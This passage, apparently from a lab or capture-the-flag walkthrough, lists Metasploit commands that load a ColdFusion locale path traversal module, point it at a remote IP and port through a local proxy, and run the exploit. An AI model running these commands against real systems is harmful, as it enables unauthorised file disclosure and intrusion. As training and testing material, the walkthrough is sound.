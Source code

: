 > msf6 >**search coldfusion\_locale\_traversa**l
>
> msf6 >**use 0**
>
> msf6 >**set RHOSTS 167.71.140.137**
>
> msf6 >**set RPORT 30650**
>
> msf6 >**set PROXIES HTTP:127.0.0.1:8080**
>
> msf6 >**exploit**

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*jeE9CHljhrsfqT30oGRqzQ.png" alt="" height="533" width="700"><figcaption></figcaption></figure>
